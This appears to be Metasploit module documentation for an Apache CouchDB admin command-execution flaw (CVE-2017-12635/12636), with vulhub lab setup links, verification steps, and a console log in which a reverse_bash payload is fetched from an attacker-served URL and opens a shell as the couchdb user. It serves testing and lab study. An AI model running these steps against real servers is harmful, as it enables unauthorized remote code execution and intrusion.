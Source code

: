 ## Description  

CouchDB administrative users can configure the database server via HTTP(S).Some of the configuration options include paths for operating system-level binaries that are subsequently launched by CouchDB.This allows an admin user in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to execute arbitrary shell commands as the CouchDB user,including downloading and executing scripts from the public internet.

## Vulnerable Application  

**Vulnerable Application Link** 

- docker  

Couchdb 2.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635  
Couchdb 1.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12636


## Vulnerable Application Installation Setup.

Change dictory to CVE-2017-1263X, and run `docker-compose up -d` 


## Verification Steps  

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb```
  4. Do: ``check``

``[*] 192.168.77.139:5984 The target appears to be vulnerable.``

  5. Do: ``set srvhost <ip>``
  6. Do: ``set srvport <port>``
  7. Do: ``set lhost <ip>``
  8. Do: ``set lport <port>``
  9. Do: ``exploit``
  10. You should get a shell.

## Options

- URIPATH

``URIPATH`` by default is random, you can change it if you want.

- HttpUsername, HttpPassword  

Sometimes it  requires authentication, set these options to authorize.  


## Scenarios  

TESTED AGAINST LINUX

```
msf5 > use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > show options 

Module options (exploit/linux/http/apache_couchdb_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password to login with
   HttpUsername                   no        The username to login as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                          yes       The target address
   RPORT         5984             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit to download and execute. (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set rhost 192.168.77.139
rhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > check 
[*] 192.168.77.139:5984 The target appears to be vulnerable.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set srvhost 192.168.77.139 
srvhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set srvport 8888
srvport => 8888
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set lhost 192.168.77.139 
lhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit 
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.77.139:4444 
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > [*] Using URL: http://192.168.77.139:8888/rXrdf2
[*] 192.168.77.139:5984 - The 1 time to exploit
[*] 192.168.77.139:5984 - Sending the payload to the server...
[*] Command shell session 1 opened (192.168.77.139:4444 -> 172.18.0.2:58348) at 2018-03-27 06:18:21 -0400
[*] Server stopped.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(couchdb) gid=999(couchdb) groups=999(couchdb)
```
